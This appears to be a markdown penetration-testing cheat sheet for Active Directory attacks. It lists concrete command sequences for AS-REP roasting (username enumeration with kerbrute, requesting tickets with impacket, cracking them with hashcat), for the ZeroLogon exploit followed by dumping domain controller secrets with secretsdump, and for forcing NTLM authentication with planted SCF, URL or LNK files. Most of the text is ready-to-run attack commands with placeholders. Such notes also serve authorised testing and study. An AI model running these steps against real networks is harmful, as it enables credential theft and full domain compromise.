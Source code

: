 ## AS-REPRoasting

**Requirements**:
- valid usernames for which the *UF_DONT_REQUIRE_PREAUTH* property is set

**Tools**:
- [kerbrute](https://github.com/ropnop/kerbrute)
- `GetNPUsers.py` - *impacket*
- `hashcat`
- wordlist of valid usernames can be generated ([thanks](https://dzmitry-savitski.github.io/2020/04/generate-a-user-name-list-for-brute-force-from-first-and-last-name)):
	- `curl https://gist.githubusercontent.com/dzmitry-savitski/65c249051e54a8a4f17a534d311ab3d4/raw/5514e8b23e52cac8534cc3fdfbeb61cbb351411c/user-name-rules.txt >> /etc/john/john.conf`
	- `john --wordlist=wordlist_user.txt --rules=Login-Generator-i --stdout > usernames.txt`

**Steps**:
1. identify valid usernames with *kerbrute*
	- add  `<IP target> <DOMAIN NAME>` to the hosts file
	- `./kerbrute_linux_amd64 userenum --dc <IP DC> -d <DOMAIN NAME> <USERNAME WORDLIST>`
2. identify *AS-REP roastable* users:
	- `python3 GetNPUsers.py <DOMAIN NAME>/ -dc-ip <IP DC> -usersfile <users.txt>`
3. get *AS-REP* ticket for vulnerable user:
	- `python3 GetNPUsers.py -dc-ip <IP DC> -request -outputfile <AS-REP.txt> '<DOMAIN NAME>/<USERNAME>'`
4. *AS-REP* ticket cracking:
	- `hashcat -m 18200 <AS-REP.txt> <wordlist>`

## ZeroLogon

**Tools**:
- ZeroLogon checker: [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)
- ZeroLogon exploit: [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)
- `secretsdump.py` - *impacket*

**Steps**:
1. identify *NetBIOS name* DC:
	- `nbtscan <IP DC>`
2. checker:
	- `python3 zerologon_tester.py <NetBIOS name DC> <IP DC>`
3. exploit:
	- `python3 cve-2020-1472-exploit.py <NetBIOS name DC> <IP DC>`
4. dump *secrets* DC:
	- `python3 secretsdump.py -no-pass <DOMAIN NAME>/'<NetBIOS name DC>$'@<IP DC>`

## ForcedAuthentication

**Goal**: force NTLM authentication by the target machine. You can use the script [https://github.com/xct/hashgrab](https://github.com/xct/hashgrab) to generate SCF, URL and LNK files in one go. NTLM authentication is forced ***automatically*** when a share containing SCF, URL or LNK files is visited.
